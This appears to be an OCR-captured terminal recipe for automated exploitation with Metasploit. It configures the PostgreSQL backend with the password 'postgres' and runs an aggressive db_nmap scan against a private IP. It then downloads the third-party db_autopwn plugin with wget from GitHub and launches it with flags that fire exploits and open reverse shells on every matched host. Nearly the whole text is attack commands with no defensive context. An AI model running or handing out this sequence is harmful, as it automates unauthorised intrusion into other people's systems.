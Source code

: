 service postgresql start
sudo  -u  postgres  psql  postgres
postgres=# alter user postgres with password 'postgres';
postgres=# \password  postgres
postgres=# \q
msf> db_disconnect
msf> db_connect postgres:postgres@127.0.0.1/postgres
msf> db_status
msf> db_nmap -sV -O -v -T 5 192.168.5.123
msf> load db_autopwn
[-] Failed to load plugin from /opt/metasploit-framework/embedded/framework/plugins/db_autopwn
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
cp db_autopwn.rb /opt/metasploit-framework/embedded/framework/plugins/
msf> load db_autopwn
[*] Successfully loaded plugin: db_autopwn
msf> db_autopwn  -e  -t  -r  -p